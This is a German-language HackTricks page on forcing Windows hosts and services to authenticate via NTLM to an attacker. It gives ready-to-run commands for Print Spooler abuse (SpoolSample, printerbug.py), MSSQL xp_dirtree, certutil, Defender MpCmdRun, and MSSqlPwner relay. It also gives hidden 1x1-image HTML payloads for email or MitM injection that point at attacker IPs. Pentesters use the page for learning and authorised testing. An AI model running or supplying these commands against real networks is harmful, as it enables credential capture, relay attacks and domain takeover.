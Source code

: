 # Zwingen von NTLM privilegierter Authentifizierung

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) ist eine **Sammlung** von **Remote-Authentifizierungs-Triggern**, die in C# unter Verwendung des MIDL-Compilers codiert sind, um 3rd-Party-Abhängigkeiten zu vermeiden.

## Missbrauch des Spooler-Dienstes

Wenn der _**Print Spooler**_ Dienst **aktiviert** ist, können Sie einige bereits bekannte AD-Anmeldeinformationen verwenden, um beim Druckserver des Domänencontrollers eine **Aktualisierung** zu neuen Druckaufträgen anzufordern und ihm einfach zu sagen, dass er die **Benachrichtigung an ein beliebiges System** senden soll.\
Beachten Sie, dass der Drucker die Benachrichtigung an beliebige Systeme sendet, er sich gegen dieses **System** **authentifizieren** muss. Daher kann ein Angreifer den _**Print Spooler**_ Dienst dazu bringen, sich gegen ein beliebiges System zu authentifizieren, und der Dienst wird in dieser Authentifizierung das **Computer-Konto** verwenden.

### Finden von Windows-Servern in der Domäne

Verwenden Sie PowerShell, um eine Liste von Windows-Boxen zu erhalten. Server haben normalerweise Priorität, also konzentrieren wir uns darauf:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Finden von Spooler-Diensten, die lauschen

Verwenden Sie einen leicht modifizierten @mysmartlogin's (Vincent Le Toux's) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), um zu überprüfen, ob der Spooler-Dienst lauscht:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Sie können auch rpcdump.py unter Linux verwenden und nach dem MS-RPRN-Protokoll suchen.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Fordern Sie den Dienst auf, sich gegen einen beliebigen Host zu authentifizieren

Sie können [**SpoolSample von hier**](https://github.com/NotMedic/NetNTLMtoSilverTicket)** kompilieren.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
oder verwende [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) oder [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py), wenn du auf Linux bist
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Kombination mit Unbeschränkter Delegation

Wenn ein Angreifer bereits einen Computer mit [Unbeschränkter Delegation](unconstrained-delegation.md) kompromittiert hat, könnte der Angreifer **den Drucker zwingen, sich gegen diesen Computer zu authentifizieren**. Aufgrund der unbeschränkten Delegation wird das **TGT** des **Computer-Kontos des Druckers** im **Speicher** des Computers mit unbeschränkter Delegation **gespeichert**. Da der Angreifer bereits diesen Host kompromittiert hat, wird er in der Lage sein, **dieses Ticket abzurufen** und es auszunutzen ([Pass the Ticket](pass-the-ticket.md)).

## RCP Zwangs-Authentifizierung

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Der `PrivExchange`-Angriff ist das Ergebnis eines Fehlers, der in der **Exchange Server `PushSubscription`-Funktion** gefunden wurde. Diese Funktion ermöglicht es, dass der Exchange-Server von jedem Domänenbenutzer mit einem Postfach gezwungen wird, sich bei einem beliebigen vom Client bereitgestellten Host über HTTP zu authentifizieren.

Standardmäßig läuft der **Exchange-Dienst als SYSTEM** und erhält übermäßige Berechtigungen (insbesondere hat er **WriteDacl-Berechtigungen auf der Domäne vor dem kumulativen Update 2019**). Dieser Fehler kann ausgenutzt werden, um die **Weiterleitung von Informationen zu LDAP zu ermöglichen und anschließend die NTDS-Datenbank der Domäne zu extrahieren**. In Fällen, in denen eine Weiterleitung zu LDAP nicht möglich ist, kann dieser Fehler dennoch verwendet werden, um sich an anderen Hosts innerhalb der Domäne weiterzuleiten und zu authentifizieren. Die erfolgreiche Ausnutzung dieses Angriffs gewährt sofortigen Zugriff auf den Domänenadministrator mit jedem authentifizierten Domänenbenutzerkonto.

## Innerhalb von Windows

Wenn Sie sich bereits auf der Windows-Maschine befinden, können Sie Windows zwingen, sich mit privilegierten Konten mit einem Server zu verbinden, indem Sie: 

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Oder verwenden Sie diese andere Technik: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Es ist möglich, certutil.exe lolbin (von Microsoft signierte Binärdatei) zu verwenden, um die NTLM-Authentifizierung zu erzwingen:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML-Injection

### Über E-Mail

Wenn Sie die **E-Mail-Adresse** des Benutzers kennen, der sich an einer Maschine anmeldet, die Sie kompromittieren möchten, könnten Sie ihm einfach eine **E-Mail mit einem 1x1-Bild** senden, wie
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
und wenn er es öffnet, wird er versuchen, sich zu authentifizieren.

### MitM

Wenn Sie einen MitM-Angriff auf einen Computer durchführen und HTML in eine Seite injizieren können, könnten Sie versuchen, ein Bild wie das folgende in die Seite zu injizieren:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 knacken

Wenn Sie [NTLMv1-Herausforderungen erfassen können, lesen Sie hier, wie Sie sie knacken](../ntlm/#ntlmv1-attack).\
&#xNAN;_&#x52;emember, dass Sie, um NTLMv1 zu knacken, die Responder-Herausforderung auf "1122334455667788" setzen müssen._

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks unterstützen</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
